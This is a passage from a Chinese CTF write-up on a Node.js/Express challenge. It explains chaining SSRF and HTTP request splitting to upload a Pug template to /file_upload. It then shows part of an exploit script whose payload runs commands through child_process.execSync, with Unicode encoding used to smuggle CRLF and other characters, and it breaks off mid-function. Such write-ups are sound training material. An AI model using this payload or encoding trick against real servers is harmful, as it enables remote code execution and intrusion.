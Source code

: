 ```javascript
        if (trigger === true) {
            return true
        }
    }
}

var server = app.listen(8081, function() {
    var host = server.address().address
    var port = server.address().port
    console.log("Example app listening at http://%s:%s", host, port)
})

```

### 解题方法

我们可以看到在第77行和84中分别接收了我们输入的url并在服务器中做出请求，于是我们可以利用上文中的漏洞完成SSRF请求```/file_upload```上传模板文件并且进行包含获得flag。

解题脚本如下：

```python
# exp.py

import requests
import sys

payloadRaw = """x HTTP/1.1

POST /file_upload HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12837266501973088788260782942
Content-Length: 6279
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/?action=upload
Upgrade-Insecure-Requests: 1

-----------------------------12837266501973088788260782942
Content-Disposition: form-data; name="file"; filename="5am3_get_flag.pug"
Content-Type: ../template

- global.process.mainModule.require('child_process').execSync('evalcmd')
-----------------------------12837266501973088788260782942--


"""

def getParm(payload):
    payload = payload.replace(" ","%C4%A0")
    payload = payload.replace("\n","%C4%8D%C4%8A")
    payload = payload.replace("\"","%C4%A2")
    payload = payload.replace("'","%C4%A7")
    payload = payload.replace("`","%C5%A0")
    payload = payload.replace("!","%C4%A1")

    payload = payload.replace("+","%2B")
    payload = payload.replace(";","%3B")
    payload = payload.replace("&","%26")

```